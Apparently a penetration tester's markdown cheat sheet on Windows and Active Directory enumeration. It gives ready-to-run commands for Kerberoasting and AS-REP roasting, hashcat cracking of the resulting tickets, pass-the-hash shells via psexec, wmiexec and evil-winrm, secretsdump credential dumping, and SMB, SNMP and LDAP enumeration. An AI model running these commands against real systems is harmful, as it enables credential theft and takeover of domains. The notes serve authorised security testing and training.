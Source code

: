 ```yaml
---
title: 3. Enumeration - Windows
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Enumeration
toc: true
---
```


---
Step 3 in a penetration test: Enumeration.
Try to find relevant info to enter the target machine.

---
<!-- more -->

## Active Directory

### Impacket scripts

#### GetADUsers.py
  - gather data about the domain's users and their corresponding email addresses
```bash
GetADUsers.py -all $domain/$username -dc-ip $IP
```

<br>

#### GetUserSPNs.py
  - fetch Service Principal Names that are associated with normal user accounts
  - give a ticket encrypted with the user account's password that we can crack.

```bash 
GetUserSPNs.py -request -dc-ip $IP $domain/$user -save -outputfile GetUserSPNs.out
```
```bash Crack krb5tgs ticket
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

<br>

#### GetNPUsers.py
  - retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords

```bash
python3 GetNPUsers.py $domain/ -dc-ip $IP -usersfile users.txt -format hashcat -outputfile hashes.txt
```

<br>

#### PSExec.py
  - psexec like functionality; shell on the Windows host

```bash
psexec.py $domain/$user:$pass@$IP

psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip $IP administrator@$IP
```

<br>

#### WMIexec.py
  - execute commands through WMI, similar to `smbexec.py`
  - runs under user (must be Admin) and is not noisy (as smbexec.py)
  - drawback: needs DCOM - access to DCOM ports

```bash
wmiexec.py 'administrator:$pass@$IP'

wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip $IP administrator@$IP
```

<br>

#### Secretsdump.py
 - dump hashes from the remote machine
 - for SAM and LSA Secrets (including cached creds) read as much from the hives
 - from NTDS.dit extract domain users, hashes, kerberos keys

```bash
# mounted Share in Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

<br>

#### MsSQLclient.py
- authenticate and run commands in a MSSQL server

```bash 
mssqlclient.py $user:'$pass'@$IP -windows-auth
```

<br>





## Services by ports

### Port 139/TCP,445/TCP - SMB
```bash
enum4linux -a $IP
```
```bash
# recursively list all files in available shares
smbmap -H $IP -R

smbmap -H $IP -d $domain -u "$user" -p "$pass"
```
```bash
# connect to share without a password
smbclient //$IP/Share_name -U ""%""

# connect to share with username and password
smbclient //$IP/Share_name -U $domain\\$user%$pass
```
```bash
crackmapexec smb $IP -u users -p users --continue-on-success
```

<br>

### Port 139/TCP,445/TCP - NetBIOS,SMB
```bash Authenticate with Impacket script - mssqlclient
mssqlclient.py $user:'$pass'@$IP -windows-auth
```

<br>

### Port 161/UDP - SNMP
Normal enumeration
```bash
snmpwalk -v 2c -c public $IP
```
Enable MIB support - translate OIDs (Object Identifiers)
> comment out the only uncommented line to use the mibs
```bash
sudo apt install snmp-mibs-downloader
sudo nano /etc/snmp/snmp.conf
```

```bash hrSWRunTable: Retrieves detailed information about all running processes
snmpwalk -v 2c -c public $IP hrSWRunTable
# included information:
#   - hrSWRunIndex: Unique index for each running process.
#   - hrSWRunName: Name of each running process.
#   - hrSWRunID: Unique ID of the process.
#   - hrSWRunPath: Full path to the executable file of the process.
#   - hrSWRunParameters: Command-line parameters used to start the process.
#   - hrSWRunType: Type of process (e.g., application, system).
```

<br>

### Port 389/TCP,UDP - LDAP
```bash
ldapsearch -x -h $IP -s base namingcontexts
# -x              simple auth
# -s base         set the scope base
# namingcontext   return naming contexts

ldapsearch -x -h $IP -b 'DC=$domain,DC=LOCAL'
```

<br>

### Port 5985/TCP,5986/TCP - WinRM
```bash
crackmapexec winrm $IP -u $user -p '$pass'
```
```bash
evil-winrm -i $IP -u $user -p '$pass'

evil-winrm -i $IP -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```

<br>

---
---